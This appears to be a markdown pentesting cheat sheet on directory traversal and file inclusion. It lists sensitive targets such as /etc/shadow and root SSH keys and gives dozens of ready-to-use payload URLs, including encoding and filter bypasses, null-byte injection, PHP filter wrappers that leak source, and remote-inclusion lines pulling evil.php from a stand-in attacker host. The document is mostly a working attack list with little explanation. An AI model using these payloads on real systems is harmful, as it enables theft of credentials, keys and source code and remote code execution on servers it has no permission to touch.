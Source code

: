 # Directory Traversal
 Directory traversal is a web vulnerability that allows an attacker to read arbitrary files on the server.
 ![](lfi1.png)

 
			Important files to check
- `/proc/version` 	      specifies the version of the Linux kernel
- `/etc/passwd` 		      has all registered user that has access to a system
- `/etc/shadow`		      contains information about the system's users' passwords
- `/var/mail/root`	 	all emails for root user
- `var/log/dmessage`	  contains global system messages
- `/root/.ssh/id_rsa`	      Private SSH keys for a root or any known user
- `/root/.bash_history`	    contains the history commands for root user

<!-- -->

			Directory Traversal Cheatsheat
Basics:
`http://vulnerable-site.com/index.php?page=../../../etc/passwd`
`http://vulnerable-site.com/index.php?page=....//....//....//etc/passwd`
`http://vulnerable-site.com/index.php?page=....\/....\/....\/etc/passwd`
`http://vulnerable-site.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd`

Null Byte Injection:
`http://vulnerable-site.com/index.php?page=../../../etc/passwd%00`
--------------------------------------------------------------------
Encoding:
`http://vulnerable-site.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd`
`http://vulnerable-site.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd`
`http://vulnerable-site.com/index.php?page=%252e%252e%252fetc%252fpasswd`
`http://vulnerable-site.com/index.php?page=%252e%252e%252fetc%252fpasswd%00`
--------------------------------------------------------------------
From an Existent Folder:
`http://vulnerable-site.com/index.php?page=utils/scripts/../../../../../etc/passwd`
--------------------------------------------------------------------
Path Truncation:
`http://vulnerable-site.com/index.php?page=a/../../[ADDMORE]../../etc/passwd`
--------------------------------------------------------------------
Filter Bypass: 
`http://vulnerable-site.com/index.php?page=....//....//etc/passwd`
`http://vulnerable-site.com/index.php?page=..///////..////..//////etc/passwd`
`http://vulnerable-site.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd` `http://vulnerable-site.com/index.php?page=/var/www/../../etc/passwd`
--------------------------------------------------------------------
RFI:
`http://vulnerable-site.com/index.php?page=http://atacker.com/evil.php`
`http://vulnerable-site.com/index.php?page=\\attacker.com\evil.php`
--------------------------------------------------------------------
PHP Wrappers: filter
`http://vulnerable-site.com/index.php?page=php://filter/read=string.rot13/resource=index.php`
`http://vulnerable-site.com/index.php?page=php://filter/convert.base64-encode/resource=index.php`
`http://vulnerable-site.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php`
--------------------------------------------------------------------
PHP wrapper: zlib
`http://vulnerable-site.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd`
--------------------------------------------------------------------